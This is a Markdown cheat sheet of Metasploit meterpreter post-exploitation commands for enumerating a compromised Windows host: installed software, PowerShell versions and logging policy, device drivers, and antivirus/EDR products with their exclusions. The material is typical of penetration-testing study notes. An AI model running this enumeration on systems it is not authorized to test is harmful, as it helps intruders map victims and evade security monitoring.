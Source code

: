 # Metasploit
Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #windows

## 01 - Installed Programs

TODO: Convert the manual methods to meterpreter

### 1.1 - List Installed Software

```
meterpreter > run post/windows/gather/enum_applications

meterpreter > run post/multi/gather/enum_software_versions

meterpreter > run post/windows/gather/enum_chocolatey_applications

meterpreter > run post/windows/gather/wmic_command command="product get name,version,vendor"

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE
```

Enumerate OneDrive

```
meterpreter > run post/windows/gather/enum_onedrive
```

### 1.2 - List directories including hidden files and folders

```
meterpreter > ls -R "C:\Program Files"

meterpreter > ls -R "C:\Program Files (x86)"
```

### 1.3 - Find a specific program

File Explorer

```
meterpreter > ls -RS "explorer.exe" C:\\

meterpreter > search -d C:\\ -f explorer.exe
```

Internet Explorer

```
meterpreter > ls -RS "iexplore.exe" C:\\

meterpreter > search -d C:\\ -f iexplore.exe
```

Java Updater

```
meterpreter > ls -RS "jucheck.exe" C:\\

meterpreter > search -d C:\\ -f jucheck.exe
```

Find MSBuild C# compiler versions

```
meterpreter > ls -RS "MSBuild.exe" C:\\

meterpreter > search -d C:\\ -f MSBuild.exe

meterpreter > ls -R %windir%\Microsoft.NET\Framework64

meterpreter > ls %windir%\Microsoft.NET\Framework64\v*

meterpreter > run post/windows/gather/wmic_command command="product get description"

userware@hackware-os:~$ grep ".NET" /root/.msf4/loot/msf-loot-file.txt
```

## 02 - Powershell and .NET

Discover available Powershell engines.

```
meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\1\\powershellengine -v powershellversion

meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\3\\powershellengine -v powershellversion
```

Discover Powershell Logging.

```
meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\Powershell\\Transcription

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ModuleLogging

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ScriptBlockLogging
```

Enumerate available Common Language Runtime (CLR) versions.

```
meterpreter > ls -RS "System.dll" %windir%\Microsoft.Net\Framework\

C:\> reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4\Full Release"
```

## 03 - Device Drivers

### 3.1 - Meterpreter Command

```
meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] [/v] /fo list"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] /fo table"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] --no-msft"
```

### 3.2 - Powershell Extension

```
meterpreter > powershell_execute 'driverquery.exe [/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", Start Mode", Path'

meterpreter > powershell_execute 'Get-CimInstance Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMWare*"}'
```

## 04 - Antivirus and EDR

```
meterpreter > service_query WinDefend

meterpreter > run post/windows/gather/enum_av

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct"

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct get displayname, productState, pathToSignedProductExe"
```

Retrieve exclusions of Windows Security and other antiviruses.

```
meterpreter > run post/windows/gather/enum_av_excluded
```

---
## References

- [[04 - Powershell|Metasploit: Powershell Meterpreter Extension]]

- [Rapid7: Metasploit Framework - Enumerate AV Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_av.md)